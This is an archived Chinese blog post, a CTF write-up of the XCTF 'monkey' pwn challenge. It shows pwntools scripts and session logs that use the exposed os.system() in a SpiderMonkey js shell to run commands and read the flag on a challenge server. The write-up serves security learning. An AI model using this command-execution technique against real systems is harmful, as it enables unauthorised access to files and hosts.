

<!--yml
category: 未分类
date: 2022-04-26 14:36:35
-->

# monkey [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列18_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103693289](https://blog.csdn.net/fastergohome/article/details/103693289)

题目地址：[monkey](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4814&page=1)

本题是高手进阶区的第七题，先看看题目

继续是一道2星难度的题目，那就下载附件看看情况

```
root@mypwn:/ctf/work/python/monkey# ls -l
total 34972
-rw-r--r-- 1 root root  9544403 Dec 25 01:00 05fb160732b5493dae565b8c3f35474f.zip
-rwxr-xr-x 1 root root 24924816 Dec 31  2009 js
-rwxr-xr-x 1 root root   280448 Dec 31  2009 libnspr4.so
-rwxr-xr-x 1 root root    22224 Dec 31  2009 libplc4.so
-rwxr-xr-x 1 root root    19128 Dec 31  2009 libplds4.so
```

这道题目多了几个动态链接库，我先说明一下怎么在python+pwn中使用动态链接库：

```
p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
```

检查一下保护机制如下：

```
[*] '/ctf/work/python/monkey/js'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

看样子是道普通题目，那就先看看IDA的反编译情况，感觉这个题目不太平常，引入了js库，那估计就是个js语言解释器。

编写一个python脚本，在本地测试一下，脚本如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './js'
p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
# p = remote('111.198.29.45', 36913)
# elf = ELF(process_name)

p.recv()

p.interactive()
```

我先试一下输入各种数据看看情况

```
root@mypwn:/ctf/work/python/monkey# python monkey.py 
[+] Starting local process './js' env={'LD_LIBRARY_PATH': './'} : pid 4036
[DEBUG] Received 0x4 bytes:
    'js> '
[*] Switching to interactive mode
$ help
[DEBUG] Sent 0x5 bytes:
    'help\n'
[DEBUG] Received 0x30 bytes:
    'help\r\n'
    'function help() {\n'
    '    [native code]\n'
    '}\n'
    'js> '
help
function help() {
    [native code]
}
js> $ alert('x')
[DEBUG] Sent 0xb bytes:
    "alert('x')\n"
[DEBUG] Received 0x55 bytes:
    "alert('x')\r\n"
    'typein:2:1 ReferenceError: alert is not defined\n'
    'Stack:\n'
    '  @typein:2:1\n'
    'js> '
alert('x')
typein:2:1 ReferenceError: alert is not defined
Stack:
  @typein:2:1
js> $ echo('x')
[DEBUG] Sent 0xa bytes:
    "echo('x')\n"
[DEBUG] Received 0x53 bytes:
    "echo('x')\r\n"
    'typein:3:1 ReferenceError: echo is not defined\n'
    'Stack:\n'
    '  @typein:3:1\n'
    'js> '
echo('x')
typein:3:1 ReferenceError: echo is not defined
Stack:
  @typein:3:1
js> $ os
[DEBUG] Sent 0x3 bytes:
    'os\n'
[DEBUG] Received 0x1 bytes:
    'o'
o[DEBUG] Received 0x126 bytes:
    's\r\n'
    '({getenv:function getenv() {\n'
    '    [native code]\n'
    '}, getpid:function getpid() {\n'
    '    [native code]\n'
    '}, system:function system() {\n'
    '    [native code]\n'
    '}, spawn:function spawn() {\n'
    '    [native code]\n'
    '}, kill:function kill() {\n'
    '    [native code]\n'
    '}, waitpid:function waitpid() {\n'
    '    [native code]\n'
    '}})\n'
    'js> '
s
({getenv:function getenv() {
    [native code]
}, getpid:function getpid() {
    [native code]
}, system:function system() {
    [native code]
}, spawn:function spawn() {
    [native code]
}, kill:function kill() {
    [native code]
}, waitpid:function waitpid() {
    [native code]
}})
js> $ os.getenv()
[DEBUG] Sent 0xc bytes:
    'os.getenv()\n'
[DEBUG] Received 0xd bytes:
    'os.getenv()\r\n'
os.getenv()
[DEBUG] Received 0x49 bytes:
    'typein:7:1 Error: os.getenv requires 1 argument\n'
    'Stack:\n'
    '  @typein:7:1\n'
    'js> '
typein:7:1 Error: os.getenv requires 1 argument
Stack:
  @typein:7:1
js> $ os.getpid()
[DEBUG] Sent 0xc bytes:
    'os.getpid()\n'
[DEBUG] Received 0x16 bytes:
    'os.getpid()\r\n'
    '4036\n'
    'js> '
os.getpid()
4036
js> $ 
```

看起来是能够直接执行js函数的，刚过执行了os.getenv()和os.getpid()。

看了一下提示：

```
({getenv:function getenv() {
    [native code]
}, getpid:function getpid() {
    [native code]
}, system:function system() {
    [native code]
}, spawn:function spawn() {
    [native code]
}, kill:function kill() {
    [native code]
}, waitpid:function waitpid() {
    [native code]
}})
```

那么后面的system函数应该就是我们可以执行sh命令的函数了

```
js> $ os.system('ls')
[DEBUG] Sent 0x10 bytes:
    "os.system('ls')\n"
[DEBUG] Received 0x11 bytes:
    "os.system('ls')\r\n"
os.system('ls')
[DEBUG] Received 0x3f bytes:
    '05fb160732b5493dae565b8c3f35474f.zip  libnspr4.so  libplds4.so\n'
05fb160732b5493dae565b8c3f35474f.zip  libnspr4.so  libplds4.so
[DEBUG] Received 0x23 bytes:
    'js\t\t\t\t      libplc4.so   monkey.py\n'
js                      libplc4.so   monkey.py
[DEBUG] Received 0x6 bytes:
    '0\n'
    'js> '
0 
```

果然本地执行命令是可以的，编写一个python脚本如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './js'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 36913)
# elf = ELF(process_name)

p.sendlineafter('js> ', 'os.system(\'cat flag\')')

p.interactive()
```

直接连上服务器测试一下

```
root@mypwn:/ctf/work/python/monkey# python monkey.py 
[+] Opening connection to 111.198.29.45 on port 36913: Done
[DEBUG] Received 0x4 bytes:
    'js> '
[DEBUG] Sent 0x16 bytes:
    "os.system('cat flag')\n"
[*] Switching to interactive mode
[DEBUG] Received 0x5 bytes:
    'os.sy'
os.sy[DEBUG] Received 0x43 bytes:
    "stem('cat flag')\r\n"
    'cyberpeace{0ac174372107b8a4f8ef4906db10c4a7}\n'
    'js> '
stem('cat flag')
cyberpeace{0ac174372107b8a4f8ef4906db10c4a7}
js> $ 
```

执行成功，这道题目在我们拿到程序之后，可能会有点小小的不适应。

但是其实真实世界的程序比这个复杂多得多，正常来说我们只要把动态库分离一下就好。